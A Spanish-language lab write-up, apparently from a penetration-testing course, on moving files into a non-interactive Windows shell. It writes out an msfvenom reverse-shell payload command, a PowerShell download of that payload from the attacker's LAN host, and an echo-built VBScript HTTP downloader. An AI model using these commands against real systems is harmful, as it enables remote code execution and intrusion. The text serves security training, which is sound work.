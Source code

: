 
### 3. Exercises.

Antes de proceder a realizar los ejercicios anteriores, abrimos una shell no interactiva entre Windows y Kali:

En primer lugar nos aseguramos tener un shell no-interactivo a través de netcat. Esto lo conseguimos generamos una reverse-shell payload con msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.127.132 LPORT=4444 -f exe -o reverse.exe
```

Seguidamente activamos un listener de netcat en el puerto 4444 y transferimos el reverse.exe al cliente de windowsa través de una descarga de un servidor de python:

```
python3 -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y lo descargamos desde Windows con powershell:

```
powershell "Invoke-WebRequest -Uri http://192.168.127.132:8000/reverse.exe -OutFile Desktop\reverse.exe"
```

Ahora ejecutamos el binario y capturaremos al conexión con un listener netcat activado previamente. De esta forma se nos abrirá una shell a través de Netcat que como sabemos, es no interactiva.

<br />

**1. Use VBScript para transferir archivos en un shell no interactivo de Kali a Windows.**

Utilizamos la siguiente secuencia de comandos con el comando no intercativo echo para formar un HTTP Downloader basado en VBScript que podemos utilizar ocn la utilidad *cscript*:

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```
